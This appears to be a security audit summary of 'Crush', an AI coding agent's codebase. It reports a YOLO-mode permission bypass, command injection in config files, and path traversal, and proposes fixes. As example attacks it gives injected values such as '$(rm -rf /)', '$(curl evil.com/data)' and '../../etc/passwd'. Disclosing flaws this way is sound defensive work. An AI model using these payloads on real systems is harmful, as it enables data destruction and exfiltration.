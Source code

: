 # Critical Security Vulnerabilities Found in Crush

## 🚨 IMMEDIATE ATTENTION REQUIRED

This analysis identified **CRITICAL SECURITY VULNERABILITIES** in the Crush codebase that could lead to complete system compromise.

## Top 3 Critical Issues

### 1. ⚠️ YOLO Mode Security Bypass (CRITICAL)
**File**: `internal/permission/permission.go:126`
```go
func (s *permissionService) Request(opts CreatePermissionRequest) bool {
    if s.skip {  // YOLO mode completely bypasses ALL security
        return true
    }
    // ... security checks that get skipped
}
```
**Risk**: Complete system compromise when `--yolo` flag is used.

### 2. ⚠️ Shell Command Injection in Config (CRITICAL)  
**File**: `internal/config/resolve.go:54-92`
```go
command := result[start+2 : end]  // No sanitization!
stdout, _, err := r.shell.Exec(ctx, command)  // Executes arbitrary commands
```
**Attack**: Malicious config files with `$(rm -rf /)` or `$(curl evil.com/data)`
**Risk**: Arbitrary command execution via configuration files.

### 3. ⚠️ Path Traversal in File Operations (HIGH)
**File**: `internal/llm/tools/download.go:128-133`
```go
filePath = filepath.Join(t.workingDir, params.FilePath)  // Unsafe!
```
**Attack**: `../../etc/passwd` or similar traversal paths
**Risk**: Files written outside intended directories.

## Quick Impact Assessment

- **YOLO Mode**: Complete system access when enabled
- **Config Injection**: Remote code execution via malicious configs  
- **Path Traversal**: Arbitrary file read/write outside working directory

## Immediate Mitigations

1. **Add prominent YOLO mode warnings**
2. **Sanitize/disable command substitution in configs**
3. **Use `filepath.Clean()` and validate all file paths**

## Security Controls That ARE Working

✅ Banned commands list (60+ dangerous commands blocked)  
✅ Permission system for most operations  
✅ File size limits (100MB downloads, 5MB content)  
✅ Input validation for JSON parameters  
✅ Network timeouts and basic URL validation  

## Bottom Line

**Crush has good security foundations but critical vulnerabilities that need immediate fixes.**

The codebase shows security awareness, but the identified issues could allow complete system compromise. These should be addressed before any production use.

**Recommended Actions:**
1. Fix the 3 critical issues above
2. Review the full `SECURITY_ANALYSIS.md` for complete details
3. Implement security testing for these vulnerability patterns

*For complete analysis see: `SECURITY_ANALYSIS.md`*